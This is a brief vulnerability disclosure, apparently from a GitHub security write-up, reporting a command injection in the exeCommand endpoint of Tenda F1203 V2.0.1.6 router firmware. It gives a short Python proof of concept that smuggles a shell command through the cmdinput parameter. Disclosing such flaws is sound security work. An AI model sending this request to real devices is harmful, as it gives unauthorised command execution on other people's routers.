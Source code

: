 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

In Tenda F1203 V2.0.1.6 firmware, we discovered a command injection vulnerablility in `formexeCommand` function in the `cmdinput` parameter and the `str` varable is assigned to `cmd_buf` variable, which is directly used in `doSystemCmd` function, causing an arbitrary command execution. The user-provided `cmdinput` can trigger this security vulnerability.

![image-20240407163859236](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163859236.png)

![image-20240407163914599](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407163914599.png)

## POC

```python
import requests
IP = "192.168.84.102"
url = f"http://{IP}/goform/exeCommand"
data = "cmdinput=ls;"
ret = requests.post(url=url,data=data)
```

![image-20240407162830240](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240407162830240.png)
